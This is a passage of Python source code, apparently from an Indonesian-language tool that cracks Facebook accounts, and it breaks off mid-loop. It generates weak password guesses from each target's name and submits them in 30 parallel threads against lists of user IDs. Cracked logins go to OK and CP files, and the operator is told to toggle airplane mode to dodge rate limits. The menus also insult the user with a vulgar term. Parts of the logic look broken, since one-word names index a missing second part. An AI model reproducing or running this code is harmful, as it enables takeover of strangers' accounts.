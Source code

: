 										TitidNeverDie.submit(self.mobil, _heck_, brute)
									except: pass
							hasil(ok,cp)
						else:
							print ('\n%s%s isi yang benar kentod'%(M,til))
							manual()
					print ('\n%s×%s [ %spilih methode login, silahkan coba satu² %s]\n'%(U,O,U,O))
					print ('%s× [%s01%s] methode %sfree %s(api cepat) '%(U,P,O,M,O))
					print ('%s× [%s02%s] methode %smbasic %s(slow crack) '%(U,P,O,P,O))
					manual(pwx.split(','))
					break
		elif unikers in ('T', 't'):
			print ('\n%s×%s [ %spilih methode login, silahkan coba satu²%s ]\n'%(U,O,U,O))
			print ('%s× [%s01%s] methode %sfree %s(api cepat)'%(U,P,O,M,O))
			print ('%s× [%s02%s] methode %smbasic %s(slow crack) '%(U,P,O,P,O))
			self.langsung()
		else:
			print("%s%s Isi yang benar kentod "%(M,til));jeda(2)
			pilihan().menu()
	
	# LANGSUNG
	def langsung(self):
		global pwx
		#from data import list_peweh
		suuu = input('\n%s#%s Pilih %s>%s '%(P,O,M,K))
		if suuu == '':
			print("%s%s Isi yang benar kentod "%(M,til))
			self.langsung()
		elif suuu in ('1', '01'):
			print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
			print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
			jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
			with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
				for akun in self.id: 
					try:
						uid, name = akun.split('<=>')
						na = name.split(' ')
						if len(na) == 1:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 2:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 3:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						elif len(na) == 4:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						else:
							pwx = [name, na[0]+na[1], na[0]+"123", na[0]+"12345"]
						TitidNeverDie.submit(self.touch, uid, pwx)
					except: pass
			hasil(ok,cp)
		elif suuu in ('2', '02'):
			print ('\n%s%s%s akun %s[OK] %stersimpan ke file %s> %sOK/%s.txt'%(U,til,O,H,O,M,H,waktu));jeda(0.2)
			print ('%s%s%s akun %s[%sCP%s]%s tersimpan ke file %s> %sCP/%s.txt'%(U,til,O,M,K,M,O,M,K,waktu));jeda(0.2)
			jalan ('\n%s!%s setiap crack 1k ID, mainkan mode pesawat 2 detik \n'%(U,O));jeda(0.2)
			with ThreadPoolExecutor(max_workers=30) as TitidNeverDie:
				for akun in self.id: 
					try:
						uid, name = akun.split('<=>')